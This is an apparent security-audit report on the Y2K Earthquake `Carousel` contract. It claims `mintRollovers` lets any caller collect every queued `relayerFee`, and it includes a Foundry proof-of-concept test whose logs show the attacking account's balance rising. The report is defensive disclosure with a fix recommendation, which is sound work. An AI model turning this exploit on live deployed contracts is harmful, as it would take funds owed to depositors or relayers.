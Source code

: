 J4de

high

# Attackers can steal all `relayerFee` in the `Carousel` contract through `mintRollovers`

## Summary

Attackers can steal all `relayerFee` in the `Carousel` contract through `mintRollovers`.

## Vulnerability Detail

```solidity
    function mintRollovers(uint256 _epochId, uint256 _operations)
        external
        epochIdExists(_epochId)
        epochHasNotStarted(_epochId)
        nonReentrant
    {
// --skip--
        uint256 executions = 0;

        while ((index - prevIndex) < (_operations)) {
            if (epochResolved[queue[index].epochId]) {
// --skip--
                if (entitledShares > queue[index].assets) {
// --skip--
                    executions++;
                }
            }
            index++;
        }
// --skip--
        if (executions * relayerFee > 0)
            asset.safeTransfer(msg.sender, executions * relayerFee);

        emit RelayerMinted(_epochId, executions);
    }
```

The problem here is that the `relayerFee` returns the `msg.sender` instead of the owner of the deposit, and `mintRollovers` function is external, then the attacker can steal all the `relayerFee` by calling this function.

This is my POC, insert it into `CarouselTest.t.sol` and run `forge test -vvv -m testJ4deAudit`.

```solidity
    function testJ4deAudit() public {
        // init
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint256 _epochId = 2;
        uint256 _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        vm.warp(_epochBegin - 10 minutes);
    
        helperDepositInEpochs(_epochId, USER, false);
        helperDepositInEpochs(_epochId, USER2, false);
        helperDepositInEpochs(_epochId, USER3, false);
        helperDepositInEpochs(_epochId, USER4, false);

        // simulate 4 users to perform enlistInRollover operation,
        // may actually be more.
        vm.startPrank(USER);
        vault.enlistInRollover(_epochId, 1 ether, USER);
        vm.stopPrank();
        vm.startPrank(USER2);
        vault.enlistInRollover(_epochId, 1 ether, USER2);
        vm.stopPrank();
        vm.startPrank(USER3);
        vault.enlistInRollover(_epochId, 1 ether, USER3);
        vm.stopPrank();
        vm.startPrank(USER4);
        vault.enlistInRollover(_epochId, 1 ether, USER4);
        vm.stopPrank();

        // simulate prev epoch win
        vm.warp(_epochEnd + 1 days);
        vm.startPrank(controller);
        vault.resolveEpoch(_epochId);
        vm.stopPrank();

        _epochBegin = uint40(block.timestamp + 1 days);
        _epochEnd = uint40(block.timestamp + 2 days);
        _epochId = 3;
        _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        stdstore
            .target(address(vault))
            .sig("claimTVL(uint256)")
            .with_key(2)
            .checked_write(1000 ether);

        // USER6 steal assets
        console.log("USER6's balance: %d", IERC20(UNDERLYING).balanceOf(USER6));
        console.log(">>>>> USER6 HACK >>>>>");
        vm.startPrank(USER6);
        vault.mintRollovers(_epochId, 9999);
        vm.stopPrank();
        console.log("USER6's balance: %d", IERC20(UNDERLYING).balanceOf(USER6));
    }
```

Running result:

```sh
J4de@J4de:~/Earthquake$ forge test -vvv -m testJ4deAudit
[⠃] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠘] Solc 0.8.17 finished in 5.25s
Compiler run successful

Running 1 test for test/V2/Carousel/CarouselTest.t.sol:CarouselTest
[PASS] testJ4deAudit() (gas: 1812204)
Logs:
  USER6's balance: 1000000000000000000000
  >>>>> USER6 HACK >>>>>
  USER6's balance: 1000000000008000000000

Test result: ok. 1 passed; 0 failed; finished in 21.56ms
```

USER6 stole all relayerFee.

## Impact

Attacker can steal all the `relayerFee` by calling this function.

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L456

## Tool used

Manual Review

## Recommendation

It is recommended to return the `relayerFee` to the deposit owner or add permissions to `mintRollovers`.